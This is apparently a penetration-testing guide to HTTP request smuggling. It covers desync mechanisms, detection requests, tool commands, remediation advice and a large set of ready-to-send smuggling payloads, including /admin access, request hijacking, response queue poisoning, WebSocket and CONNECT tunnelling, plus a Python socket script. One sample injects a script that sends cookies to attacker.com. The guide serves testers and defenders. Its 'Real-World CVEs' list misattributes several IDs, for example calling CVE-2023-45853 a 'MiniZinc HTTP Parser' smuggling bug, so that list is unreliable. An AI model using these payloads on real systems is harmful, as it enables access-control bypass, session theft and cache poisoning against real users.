





# HTTP Request Smuggling

## Mechanisms

HTTP Request Smuggling is a vulnerability that occurs when front-end and back-end servers interpret HTTP requests differently, leading to a desynchronization in the HTTP request processing chain. This desynchronization allows attackers to "smuggle" requests to the back-end server, potentially bypassing security controls or manipulating how other users' requests are processed.



Request smuggling vulnerabilities arise from inconsistencies in how servers parse and interpret HTTP messages, particularly regarding:

- **Transfer-Encoding (TE) header**: Indicates chunked encoding
- **Content-Length (CL) header**: Specifies the length of the message body
- **Header parsing**: Different handling of whitespace, newlines, and malformed headers

Common desynchronization scenarios include:

- **CL.TE**: Front-end uses Content-Length, back-end uses Transfer-Encoding
- **TE.CL**: Front-end uses Transfer-Encoding, back-end uses Content-Length
- **TE.TE**: Both servers use Transfer-Encoding but handle edge cases differently

HTTP/2/3 specific desync variants:

- H2.CL / H2.TE: Conflicts between HTTP/2 body length signaling and HTTP/1 backends during downgrade.
- H2C Upgrade: Cleartext HTTP/2 (h2c) upgrade paths mishandled by intermediaries.
- Authority/Host Confusion: `:authority` vs `Host` normalization inconsistencies under CDNs.



Modern variations include:

- **H2.HTTP/1**: HTTP/2 to HTTP/1 downgrades causing inconsistencies
- **HTTP/1.H2**: HTTP/1 to HTTP/2 transitions with different interpretations
- **Timeout-based**: Exploiting time differences in connection handling
- **Method-based**: Different interpretations of HTTP methods
- **Header-based**: Inconsistent header parsing between servers

## Hunt

### Identifying Vulnerable Applications

#### Architecture Reconnaissance

- Look for multi-server architectures with proxies, load balancers, or CDNs
- Identify systems using Nginx, HAProxy, Varnish, or Amazon ALB/CloudFront
- Check for HTTP/2 support with HTTP/1 backend compatibility

#### Basic Detection Tests

1. CL.TE Vulnerability Detection (Time Delay Example):

   ```http
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Transfer-Encoding: chunked
   Content-Length: 4

   1
   A
   X
   ```

   Send this request, then send a normal request. If the normal request experiences a time delay, CL.TE might be present.

2. TE.CL Vulnerability Detection (Time Delay Example):

   ```http
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Transfer-Encoding: chunked
   Content-Length: 6

   0

   X
   ```

   Send this request, then send a normal request. If the normal request experiences a time delay, TE.CL might be present.

3. CL.TE Confirmation (Example):

   ```http
   POST / HTTP/1.1
   Host: your-lab-id.web-security-academy.net
   Connection: keep-alive
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 6
   Transfer-Encoding: chunked

   0

   G
   ```

   Send twice. The second response should indicate an unrecognized method like `GPOST`.

4. TE.CL Confirmation (Example):
   (Ensure Burp's "Update Content-Length" is unchecked)

   ```http
   POST / HTTP/1.1
   Host: your-lab-id.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-length: 4
   Transfer-Encoding: chunked

   5c
   GPOST / HTTP/1.1
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 15

   x=1
   0


   ```

   Send twice. The second request should show the effect of the smuggled `GPOST`.

5. TE.TE Desync Detection (Obfuscation Example):
   (Ensure Burp's "Update Content-Length" is unchecked)

   ```http
   POST / HTTP/1.1
   Host: your-lab-id.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-length: 4
   Transfer-Encoding: chunked
   Transfer-encoding: cow

   5c
   GPOST / HTTP/1.1
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 15

   x=1
   0


   ```

   Send twice. The second request should show the effect of the smuggled `GPOST`, confirming that one server ignored the obfuscated `Transfer-encoding: cow` header.

#### Advanced Detection Techniques

- **Differential Testing**: Observe response timing differences
- **Time Delays**: Add artificial delays between requests to detect queue interference
- **Obfuscation Testing**: Try various obfuscation techniques:
  ```http
  Transfer-Encoding: xchunked
  Transfer-Encoding: chunked
  Transfer-Encoding : chunked
  Transfer-Encoding: chunked
  Transfer-Encoding: identity, chunked
  ```

  - HTTP/2 Specific: Duplicate `content-length` headers, mixed/malformed pseudo-headers, abnormal stream resets, header/continuation frame splitting.

### Testing Methodology



1. **Initial Assessment**:
   - Test standard CL.TE and TE.CL payloads
   - Try header obfuscation techniques
   - Check for timing inconsistencies

2. **Confirmation Testing**:
   - Send a smuggled request that should trigger a distinct response
   - Test for request queue poisoning by affecting subsequent requests
   - Look for response status code anomalies

3. **Targeted Testing**:
   - Test HTTP/2 downgrade scenarios
   - Check for header oversizing vulnerabilities
   - Test method-specific handling differences

## Vulnerabilities

### Common HTTP Request Smuggling Scenarios



#### Security Control Bypass

- Web Application Firewall (WAF) Bypass: Smuggling malicious content past WAF inspection
- Access Control Evasion: Accessing restricted resources by smuggling authorized-looking requests
- Authentication Bypass: Manipulating authentication flows through request smuggling

#### Request/Response Queue Poisoning

- Request Hijacking: Capturing parts of another user's request including cookies or authentication tokens
- Response Queue Poisoning: Causing wrong responses to be sent to users
- Cache Poisoning: Injecting malicious content into caches serving multiple users

#### Server-Specific Vulnerabilities

- Nginx-Specific: Inconsistent `Transfer-Encoding` handling with underscore prefixes
- Apache-Specific: Different chunked encoding parser behavior
- NodeJS-Specific: Unique header parsing behavior with multiple headers

### Impact Examples

- Session Hijacking: Stealing user session cookies through request smuggling
- Sensitive Data Exposure: Smuggling requests to internal resources
- Cross-Site Scripting (XSS): Injecting malicious scripts into responses sent to other users
- HTTP Cache Poisoning: Poisoning cached responses viewed by multiple users
- Internal Network Scanning: Using request smuggling for SSRF-like network scanning
- Account Takeover: Smuggling requests to change user credentials

## Methodologies

### Tools

- Burp Suite Professional: HTTP Request Smuggler extension ([_PortSwigger BApp Store_](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646))
- smuggler.py: `python3 smuggler.py -u <URL>` ([_defparam/smuggler_](https://github.com/defparam/smuggler), [_anshumanpattnaik/http-request-smuggling_](https://github.com/anshumanpattnaik/http-request-smuggling))
- tiscripts: Collection of scripts including smuggling checks ([_defparam/tiscripts_](https://github.com/defparam/tiscripts))
- h2csmuggler: `go run ./cmd/h2csmuggler check https://target.com/ http://localhost` ([_assetnote/h2csmuggler_](https://github.com/assetnote/h2csmuggler), [_BishopFox/h2csmuggler_](https://github.com/BishopFox/h2csmuggler) for HTTP/2)
- Turbo Intruder: For advanced/customized request smuggling techniques in Burp Suite.
- Param Miner: For detecting hidden attack surfaces which might be vulnerable.
- h2spec / h3spec: Conformance testing for HTTP/2 and HTTP/3 implementations.

### Testing Techniques

#### Basic Request Smuggling Test Patterns

1. **CL.TE Pattern**:

   ```http
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Content-Length: 39
   Transfer-Encoding: chunked

   0

   GET /admin HTTP/1.1
   Host: vulnerable-website.com
   ```

2. **TE.CL Pattern**:

   ```http
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Content-Length: 4
   Transfer-Encoding: chunked

   5c
   GPOST / HTTP/1.1
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 15

   x=1
   0

   ```

3. **HTTP/2 Downgrade Pattern**:

   ```http
   :method: POST
   :path: /
   :authority: vulnerable-website.com
   content-length: 0
   content-length: 44

   GET /admin HTTP/1.1
   Host: vulnerable-website.com
   ```

4. **H2C Upgrade Smuggling Pattern**:

```
GET / HTTP/1.1
Host: vulnerable-website.com
Connection: Upgrade, HTTP2-Settings
Upgrade: h2c
HTTP2-Settings: AAMAAABkAAQAAP__

GET /admin HTTP/1.1
Host: vulnerable-website.com
```

#### Advanced Exploitation Techniques

1. **Request Hijacking**:

   ```http
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Content-Length: 50
   Transfer-Encoding: chunked

   0

   GET / HTTP/1.1
   Host: vulnerable-website.com
   ```

2. **Response Queue Poisoning**:

   ```http
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Content-Length: 146
   Transfer-Encoding: chunked

   0

   HTTP/1.1 200 OK
   Content-Type: text/html
   Content-Length: 30

   <html>Fake Response</html>
   ```

3. **WebSocket Hijacking**:

   ```http
   POST / HTTP/1.1
   Host: vulnerable-website.com
   Content-Length: 65
   Transfer-Encoding: chunked

   0

   GET /socket HTTP/1.1
   Upgrade: websocket
   Connection: Upgrade
   ```

### Defense Testing

1. **Testing Patch Effectiveness**:
   - Retest with various obfuscation techniques after patches
   - Check for incomplete fixes or workarounds

2. **Header Variations**:

   ```
   Transfer-Encoding: chunked
   transfer-encoding: chunked
   Transfer-Encoding:chunked
   Transfer-Encoding: identity,chunked
   Transfer-Encoding: identity, chunked
   ```

3. **Chunk Size Manipulation**:

   ```
   1\r\n
   A\r\n
   0\r\n
   \r\n
   ```

4. **HTTP/2 Strictness Checks**:

- Ensure single, consistent body length signaling; reject duplicate/malformed pseudo-headers.
- Disable or tightly control h2c upgrades at edges.

### Real-World Exploitation Workflow



1. **Identify Desync Vulnerability**:
   - Test CL.TE, TE.CL, TE.TE patterns
   - Confirm with time-delay observations

2. **Establish Attack Vector**:
   - Determine the most reliable desync method
   - Identify the best obfuscation technique for the target

3. **Craft Exploitation Payload**:
   - Create a request that smuggles another request
   - Target sensitive functionality or information disclosure

4. **Execute and Validate**:
   - Send the smuggled request
   - Observe the effects on subsequent responses

5. **Document Impact**:
   - Demonstrate real security implications
   - Show how the vulnerability could affect users

### Modern Desync Variants

#### HTTP/3 Desync

HTTP/3 uses QUIC transport which introduces new desync opportunities when proxies translate between HTTP/3 and HTTP/1.1:

**HTTP/3 to HTTP/1.1 Translation:**

```
# HTTP/3 request with duplicate headers
:method: POST
:path: /api/endpoint
:authority: target.com
content-length: 10
content-length: 50

# Backend may use different content-length value
```

**Testing HTTP/3:**

```bash
# Using curl with HTTP/3
curl --http3 https://target.com/endpoint -v

# Check Alt-Svc header indicating HTTP/3 support
curl -I https://target.com | grep -i alt-svc
```

**QUIC Stream Manipulation:**

- Multiple streams in single connection may be processed inconsistently
- Stream resets can leave partial data in backend queues
- QPACK header compression differences between implementations

#### Client-Side Desync (CSD)

Client-side desync exploits browser behavior to poison the browser's own connection pool, affecting subsequent requests from the same client.

**Mechanism:**

1. Attacker crafts response that browser caches
2. Response includes smuggled request
3. Next victim request gets poisoned response

**Example CSD Attack:**

```http
POST / HTTP/1.1
Host: vulnerable.com
Content-Length: 150
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable.com
Content-Length: 10

x=
GET /static/innocent.js HTTP/1.1
Host: vulnerable.com
```

**Browser receives:**

```http
HTTP/1.1 200 OK
Content-Length: 100

<script>
  // Malicious JavaScript injected into cached response
  document.location='http://attacker.com/steal?cookie='+document.cookie;
</script>
```

**Testing for CSD:**

1. Send smuggling payload
2. Open same site in new tab
3. Check if subsequent request receives smuggled response
4. Look for `Age` or `X-Cache` headers indicating cache hit

**High-Value Targets:**

- JavaScript files (cached and executed)
- CSS files (for exfiltration via background-image)
- JSON API responses (manipulate application state)

#### WebSocket Desync

WebSocket upgrade process can be vulnerable to request smuggling:

**WebSocket Upgrade Smuggling:**

```http
POST / HTTP/1.1
Host: vulnerable.com
Content-Length: 200
Transfer-Encoding: chunked

0

GET /chat HTTP/1.1
Host: vulnerable.com
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Sec-WebSocket-Version: 13
Sec-WebSocket-Protocol: attacker-injection

```

**Smuggling After WebSocket Establishment:**

```http
# Send via established WebSocket connection
GET /admin HTTP/1.1
Host: vulnerable.com
Cookie: admin_session=stolen_token
```

**WebSocket Frame Manipulation:**

- Inject malicious frames during upgrade
- Exploit frame fragmentation handling differences
- Target WebSocket proxies (nginx, HAProxy) that may parse differently

**Testing Steps:**

1. Initiate WebSocket upgrade with smuggling payload
2. Monitor if backend processes smuggled HTTP request
3. Check WebSocket frames for injected content
4. Test multiple simultaneous upgrade requests

#### Request Tunneling via CONNECT

CONNECT method can be abused for request smuggling:

```http
CONNECT internal.service:80 HTTP/1.1
Host: vulnerable-proxy.com

GET /admin HTTP/1.1
Host: internal.service
Authorization: Bearer stolen_token
```

**Testing:**

1. Send CONNECT request to proxy
2. Include smuggled request in CONNECT body
3. Check if proxy forwards to internal service

#### Pause-Based Desync

Exploiting TCP flow control and timing:

```python
import socket
import time

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('vulnerable.com', 80))

# Send headers slowly
s.send(b'POST / HTTP/1.1\r\n')
time.sleep(2)
s.send(b'Host: vulnerable.com\r\n')
time.sleep(2)
s.send(b'Content-Length: 50\r\n')
s.send(b'Transfer-Encoding: chunked\r\n\r\n')

# Send smuggled request
s.send(b'0\r\n\r\nGET /admin HTTP/1.1\r\n')
s.send(b'Host: vulnerable.com\r\n\r\n')
```

#### Header Oversizing

Exploit differences in maximum header sizes:

```http
POST / HTTP/1.1
Host: vulnerable.com
X-Padding: AAAA[... 8KB of data ...]
Content-Length: 100
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
```

If front-end accepts larger headers than backend, backend may miss headers after cutoff point.

### Detection Bypass Techniques (Advanced)

**Header Name Obfuscation:**

```http
Transfer-Encoding : chunked          # Space before colon
Transfer-Encoding\t: chunked         # Tab
Transfer\rEncoding: chunked          # Carriage return
Transfer\x00Encoding: chunked        # Null byte (rare)
Transfer\x0bEncoding: chunked        # Vertical tab
```

**Multiple Content-Length Variations:**

```http
Content-Length: 10
Content-Length: 20
Content-length: 30           # Case variation
CONTENT-LENGTH: 40           # Uppercase
Content-Length : 50          # Space before colon
```

**HTTP/2 Pseudo-Header Smuggling:**

```http
:method: POST
:path: /
:authority: target.com
:method: GET                  # Duplicate pseudo-header
content-length: 0
content-length: 50            # Duplicate content-length
```

**Transfer-Encoding Value Pollution:**

```http
Transfer-Encoding: chunked, identity
Transfer-Encoding: identity, chunked
Transfer-Encoding: chunked;q=1
Transfer-Encoding: chunked\x20\x20
Transfer-Encoding: chunked\x0d\x0a
```

### Real-World CVEs

1. **CVE-2023-45853 - MiniZinc HTTP Parser**:
   - Request smuggling via Transfer-Encoding handling
   - Impact: RCE via smuggled requests

2. **CVE-2023-38545 - curl SOCKS5 Heap Overflow**:
   - Related to connection reuse that could enable smuggling
   - Impact: RCE in certain configurations

3. **CVE-2022-31629 - PHP HTTP Response Splitting**:
   - Response splitting enabling smuggling attacks
   - Impact: XSS and cache poisoning

4. **CVE-2021-41773 - Apache HTTP Server Path Traversal**:
   - Could be chained with request smuggling
   - Impact: RCE via CGI script access

5. **CVE-2020-11724 - Varnish Cache HTTP/2 Desync**:
   - HTTP/2 to HTTP/1.1 downgrade desync
   - Impact: Cache poisoning and request smuggling

## Remediation Recommendations

- **Consistent Request Parsing**: Ensure consistent parsing rules across all servers
- **HTTP/2 Isolation**: Avoid translating between HTTP/2 and HTTP/1.1 where possible
- **Header Validation**: Implement strict header validation
- **Connection Resets**: Reset connections after each request when possible
- **WAF Rules**: Configure WAF to detect request smuggling attempts
- **Content-Length Validation**: Ensure Content-Length matches actual content
- **Chunked Encoding Validation**: Implement proper chunked encoding parsing
- **Regular Security Testing**: Perform request smuggling-specific security tests
- **Unified Parser**: Use a single RFC-compliant parsing library across front/back tiers; normalize `Host`/`:authority`
- **Gateway Hardening**: Strip hop-by-hop/duplicate headers; disable TE other than `chunked`; enforce single message framing signal
- **HTTP/3 Controls**: Ensure QUIC implementation correctly handles stream management and header compression
- **WebSocket Security**: Validate WebSocket upgrade requests; sanitize Sec-WebSocket-\* headers; limit concurrent upgrades
- **Client-Side Desync Prevention**: Set `Connection: close` on sensitive responses; use HTTP/2 exclusively; implement strict cache controls
- **Monitoring**: Log anomalous header patterns; alert on multiple Content-Length or Transfer-Encoding headers; track connection reuse metrics
